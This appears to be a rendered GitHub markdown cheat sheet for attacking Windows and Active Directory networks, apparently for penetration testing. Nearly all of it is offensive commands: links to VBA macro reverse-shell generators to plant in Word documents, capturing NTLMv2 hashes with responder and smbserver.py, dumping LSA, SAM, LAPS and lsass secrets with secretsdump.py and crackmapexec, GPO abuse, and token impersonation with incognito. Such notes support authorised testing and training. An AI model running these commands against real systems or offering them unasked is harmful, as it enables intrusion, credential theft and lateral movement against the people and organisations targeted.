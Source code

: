 ## Client Side Attack
```
Generate a macro from here 
https://github.com/glowbase/macro_reverse_shell
Put it in Word and deliver

OR 

Use https://github.com/JohnWoodman/VBA-Macro-Reverse-Shell
```

## Get NTLMv2 Hashes
- Put URL File in Shares to get NTLMv2 Hashes or Access using current user to get the password Hash if not known
```
smbserver.py share . -smb2support (kali) OR
sudo responder -I tun0 -A -v
net use \\<ip>\share (target)
```

## Dumping Secrets / Hashes 
```
secretsdump.py <domain>/<user>:<password>@<ip>
secretsdump.py <domain>/<user>:@<ip> -hashes <hash>
crackmapexec smb -L (to see all avialble modules)
crackmapexec smb <ip> -u <username> -p <password> --lsa (use --local-auth for local acounts, use --hashes instead of -p if you only have Hash)
crackmapexec ldap <ip> -u <username> -p <password> --kdcHost <ip> -M laps
crackmapexec ldap <ip> -u <username> -p <password> --kdcHost <ip> -M lsassy
crackmapexec ldap <ip> -u <username> -p <password> --kdcHost <ip> --sam
```

## GPO
```
SharpGPOAbuse.exe
```
- Check if compromised users can access / edit any GPOs

## Token Impersonation

### Metasploit
```
load incognito
list_tokens -u
impersonate_token <token>
```

### Windows Binary
```
incognito.exe list_tokens -u
incognito.exe impersonate_token <token>
```
